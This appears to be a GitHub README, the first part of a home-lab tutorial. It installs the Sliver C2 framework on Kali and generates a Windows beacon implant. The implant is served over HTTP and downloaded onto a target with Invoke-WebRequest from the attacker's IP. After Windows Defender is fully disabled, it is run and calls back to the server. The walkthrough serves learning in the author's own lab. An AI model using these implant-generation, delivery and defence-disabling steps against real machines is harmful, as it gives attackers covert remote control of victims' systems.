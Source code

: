 # Part 1 - Install of Sliver C2 on Kali VM, generate Beacon code, get call back from Windows target

I will be using my Active Directory Lab from my repo "active-directoy" for this demo.

Here is some reference info from that lab:
- DC1: IP address = 192.168.175.155
- WS0: IP address = 192.168.175.123
- Kali: IP address = 192.168.175.130
- Management: IP address = 192.168.175.??? 

---
[A Beginner's Guide to Sliver](https://notateamserver.xyz/sliver-101/) is available.

The guide explains the fundamentals of the framework and gives example commands.

It is highly recommeded that you read this intro before you go any further as I will not be explaining all of the features available.

I will only be showing some of the basics to get you up-and-running and key feature such as "Armory".

---

Lets start with cloning the [sliver repo](https://github.com/BishopFox/sliver.git).

On Kali VM, open terminal window and do a git install of Sliver:
```
sudo su -
cd /opt
git clone https://github.com/BishopFox/sliver.git
exit
```

---
A requirement for installing Sliver from source is the go compiler, lets check if it is installed:
```
go version
```

If it is already installed, skip over the "go" install.

To install the "go" compiler:
```
sudo apt update && sudo apt full-upgrade -y
sudo apt install golang -y
go version
```

---
Time to install sliver c2.

Lets install sliver from source.

Make sure we are in the /opt/sliver directory:
```
sudo su -
# cd /opt/sliver
```

Run make to compile it and install:
```
# make
```
This will create "sliver-server" and "sliver-client" binaries.

Exit root:
```
exit
```

Lets get started by running the sliver server:
```
$ /opt/sliver/sliver-server
```

---
Lets start using Sliver by generating a beacon implant for a Windows x64 machine:
```
[server] sliver > generate  beacon --http 192.168.175.130/last/chance
...
[*] Implant saved to /home/jim/Desktop/GREAT_EXAMINATION.exe
```

We need to transfer the beacon "implant code" that was generated (GREAT_EXAMINATION.exe) to our Windows target.

The one of the easiest ways to transfer it to our Windows target is via http.

On Kali, cd to location of gernerated "implant code":
```
$ cd /home/jim/Desktop
```

Launch python web server at 8000:
```
python3 -m http.server
```

---
Switch to our Windows Target [WS01] and try to download the "implant code" from Kali:
```
PS C:> Invoke-WebRequest -Uri “http://192.168.175.130:8000/GREAT_EXAMINATION.exe” -OutFile "C:\Users\alice\Downloads\GREAT_EXAMINATION.exe"
```

It fails because Windows Defender intercepts it!

We need to disable all of Windows Defender including the realtime part.

You can follow this [video - PERMANENTLY TURN OFF Windows Defender on Windows 11](https://www.youtube.com/watch?v=81l__vvGnjA) to turn off all of "Windows Defender".

Complete all the steps from the video and reboot the the Windows Target [ws01].

You now should be able to download and run the implant from Kali:
```
PS C:> Invoke-WebRequest -Uri “http://192.168.175.130:8000/GREAT_EXAMINATION.exe” -OutFile "C:\Users\alice\Downloads\GREAT_EXAMINATION.exe"
```

Execute the implant - it should generate a callback to the the Kali sliver-server:
```			
PS C:> \GREAT_EXAMINATION.exe
```

---
Back on Kali, in the "sliver-server" terminal window, you should see the callback:
```
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[server] sliver > beacons

 ID         Name                Transport   Hostname       Username    Operating System   Last Check-In   Next Check-In 
========== =================== =========== ============== =========== ================== =============== ===============
 a4ace178   GREAT_EXAMINATION   http(s)     DESKTOP-WS01   XYZ\alice   windows/amd64      13s             53s           
```

Great, ready to use the beacon in Part 2.

---
End of Part 1.